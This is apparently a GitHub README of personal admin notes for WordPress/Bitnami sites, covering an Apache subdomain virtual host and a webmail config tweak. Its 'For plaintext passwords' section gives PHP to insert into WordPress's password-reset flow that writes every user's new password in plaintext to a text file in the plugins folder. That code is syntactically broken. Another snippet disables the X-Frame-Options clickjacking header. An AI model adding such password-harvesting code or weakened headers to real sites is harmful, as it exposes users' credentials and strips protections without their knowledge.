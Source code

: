 # MREG
Backups and How Tos for MREG sites


# For plaintext passwords
* @param WP_User|WP_Error $user   WP_User object if the login and reset key match. WP_Error object otherwise
*/
	do_action( 'validate_password_reset', $errors, $user );
#FIRES ON RESET PAGE LOAD -MORGAN
		"if ( ( ! $errors->get_error_code() ) && isset( $_POST['pass1'] ) && !empty( $_POST['pass1'] ) ) {
		reset_password($user, $_POST['pass1']);"
#FIRES AFTER NEW PASSWORD RESET ACEPTED -MORGAN
#BEGINING OF MY CODE -MORGAN
		$my_file = 'C:\Bitnami\wordpress-4.9.1-0\apps\wordpress\htdocs\wp-content\plugins\text.txt';	
		$handle = fopen($my_file, a') or die('Cannot open file:  '.$my_file);	
		$myvariable1 = "Hello World1";
		$myvariable2 = "Hello World2";
		$myvariable3 = "$myvariable1, $myvariable2";
		$myvariable4 = $_POST['pass1'];
		fwrite($handle, "$myvariable4");
#END OF MY CODE -MORGAN


# For emby user create 
For iredmail
Open ports at cloud level

# For subdoains
Edit /opt/bitnami/acpache/conf/bitnami/bitnami.conf

<VirtualHost _default_:80>
  DocumentRoot "/opt/bitnami/apps/wordpress/htdocs/kexow"
  ServerName kexow.kexow.com
      <Directory "/opt/bitnami/apps/wordpress/htdocs/kexow">
        Options Includes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>
</VirtualHost>

# For to remove x frame same origin 
// X-Frame-Options HTTP header value sent to prevent from Clickjacking.
// Possible values: sameorigin|deny|allow-from <uri>.
// Set to false in order to disable sending the header.
$config['x_frame_options'] = false;
